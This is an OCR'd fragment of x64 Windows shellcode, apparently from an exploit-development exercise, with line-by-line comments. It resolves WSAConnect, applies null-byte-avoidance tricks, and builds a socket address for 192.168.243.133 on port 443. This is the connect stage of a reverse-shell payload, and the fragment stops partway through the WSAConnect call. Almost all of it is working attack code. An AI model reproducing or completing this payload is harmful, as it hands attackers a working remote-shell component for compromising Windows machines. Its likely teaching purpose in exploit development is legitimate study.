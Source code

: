 ```
        " mov r13, rax;"                    # Store the return value (socket handle) in R13
        " sub rsp, 0xfffffffffffffdf8;"     # Free up space in the stack

        # Resolve WSAConnect Address
        # " mov rax, 0x7463;"               # Load the second part of "WSAConnect" into RAX
        " mov ax, 0x7463;"                  # Load the second part of "WSAConnect" into AX (16-bit register)
        " push rax;"                        # Push the second part onto the stack
        " mov rax, 0x656e6e6f43415357;"     # Load the first part of "WSAConnect" into RAX
        " push rax;"                        # Push the first part onto the stack, completing "WSAConnect"
        " mov rdx, rsp; "                   # Set RDX to the stack pointer, pointing to "WSAConnect"
        " mov rcx, r15; "                   # Move the base address of WS2_32.dll (stored in R15) into RCX
        # " sub rsp, 0x30; "                # Allocate 48 bytes on the stack to preserve the stack state (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out rbx to start fresh
        " add rbx, 0x30FFFFF; "             # Load rbx with a large number
        " shr rbx, 0x14; "                  # Right-shift rbx by 20 bits to get 0x30
        " sub rsp, rbx; "                   # Subtract 0x30 from rsp

        " call r14;"                        # Call GetProcAddress, whose address is stored in R14
        # " add rsp, 0x30; "                # Deallocate the 48 bytes from the stack (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out rbx to start fresh
        " add rbx, 0x30FFFFF; "             # Load rbx with a large number
        " shr rbx, 0x14; "                  # Right-shift rbx by 20 bits to get 0x30
        " add rsp, rbx; "                   # Add 0x30 to rsp

        # " add rsp, 0x10; "                # Adjust the stack to clean up after the string "WSAConnect" (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out r15 to start fresh
        " add rbx, 0x10FFFFF; "             # Load r15 with a large number
        " shr rbx, 0x14; "                  # Right-shift r15 by 20 bits to get 0x10
        " add rsp, rbx; "                   # Subtract 0x10 from rsp

        " mov r12, rax; "                   # Store the address of WSAConnect in R12 for later use

        # Initiate a connection using WSAConnect
        " mov rcx, r13;"                    # Set the first parameter, our socket handle, to RCX
        " add rsp, 0xfffffffffffffdf8;"     # Allocate 520 bytes on the stack for local storage
        " xor rax, rax;"                    # Zero out RAX
        " inc rax; "                        # Increment RAX twice to set it to 2 (AF_INET)
        " inc rax; "            
        " mov [rsp], rax;"                  # Set AF_INET (2) at the top of the stack
        " mov ax, 0xbb01;"                  # Load the port number 443 in little endian into AX (16-bit register)
        " mov [rsp+2], ax; "                # Store the port number at RSP+2
        " mov eax, 0x85f3a8c0;"             # Set EAX to the IP address in little endian (192.168.243.133 in big endian)
        " mov [rsp+4], eax; "               # Store the IP address at RSP+4
        " lea rdx, [rsp];"                  # Load the address of the sockaddr structure into RDX
        " mov r8, 0x16; "                   # Set the namelen parameter (size of the sockaddr structure) to R8
        " xor r9, r9;"                      # Zero out R9 to use for lpCallerData, lpCalleeData, lpSQOS, lpGQOS
        " push r9;"                         # Push NULL for lpCallerData
        " push r9;"                         # Push NULL for lpCalleeData
        " push r9;"                         # Push NULL for lpSQOS
```